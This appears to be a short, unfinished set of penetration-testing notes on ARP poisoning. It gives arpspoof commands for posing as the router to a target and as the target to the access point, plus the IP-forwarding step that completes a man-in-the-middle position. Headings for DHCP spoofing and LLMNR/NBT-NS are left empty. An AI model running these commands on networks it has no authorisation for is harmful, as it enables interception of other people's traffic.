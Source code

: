 # Arp poisaning
1. Tell the target client that I am the router.
arpspoof -i [interface] -t [Target IP] [AP IP]
Ex: arpspoof -i wlan0 -t 192.168.1.5 192.168.1.1

2. Tell the AP that I am the target client.
arpspoof -i [interface] -t [AP IP] [Target IP]
Ex: arpspoof -i wlan0 -t 192.168.1.1 192.168.1.5

3. Enable IP forward to allow packets to flow through our device without being dropped.
Echo 1 > /proc/sys/net/ipv4/ip_forward

# DHCP spoofing

# Public key exchange

# LLMNR & NBT-NS